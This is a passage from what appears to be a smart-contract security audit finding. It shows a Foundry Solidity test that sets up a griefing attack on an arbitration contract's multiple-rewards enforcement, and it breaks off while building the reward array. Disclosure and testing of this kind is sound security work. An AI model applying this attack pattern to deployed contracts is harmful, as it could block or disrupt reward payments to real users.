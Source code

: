 Test demonstrating the attack:

```solidity
    function testArbSendsMultipleRewardsGriefing() public {
        uint96 referenced = 1;

        address newRecipient = makeAddr("newRecipient");
        // length variable determines length of array passed to enforceMultipleRewards
        uint256 length = 10;
        address[] memory userGroup = new address[](length);
        for (uint256 i = 0; i < length; i++) {
            string memory number = Strings.toString(i);
            address name = makeAddr(string.concat("newRecipient", number));
            userGroup[i] = name;
        }
        Receiver receiver = new Receiver();
        ERC20PresetMinterPauser token = ERC20PresetMinterPauser(address(arbitration.feeToken()));

        vm.startPrank(protocolOwner);
        token.mint(whitehat, arbitration.feeAmount());
        vm.stopPrank();

        vm.startPrank(whitehat);
        token.approve(address(arbitration), arbitration.feeAmount());
        vm.stopPrank();

        // set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendTokens.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);

        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        // set role on a new recipient
        vm.startPrank(protocolOwner);
        for (uint256 i = 0; i < length; i++) {
            arbitration.grantRole(arbitration.ALLOWED_RECIPIENT_ROLE(), userGroup[i]);
            console.log("addresses: ", address(userGroup[i]));
        }        
        arbitration.grantRole(arbitration.ALLOWED_RECIPIENT_ROLE(), newRecipient);
        arbitration.grantRole(arbitration.ALLOWED_RECIPIENT_ROLE(), address(receiver));
        vm.stopPrank();

        bytes memory signature = _signData(
            whitehatPk,
            arbitration.encodeRequestArbFromWhitehatData(referenceId, address(vault))
        );

        vm.prank(whitehat);
        arbitration.requestArbWhitehat(referenceId, address(vault), whitehat, signature);
        vm.stopPrank();
        vm.deal(address(vault), 100 ether);
        vm.deal(address(receiver), 10 ether);
        ArbitrationBase.MultipleEnforcementElement[] memory rewards = new ArbitrationBase.MultipleEnforcementElement[](
            length+1
        );
        // The beginning of the array includes all the whitehats that don't initiate 
```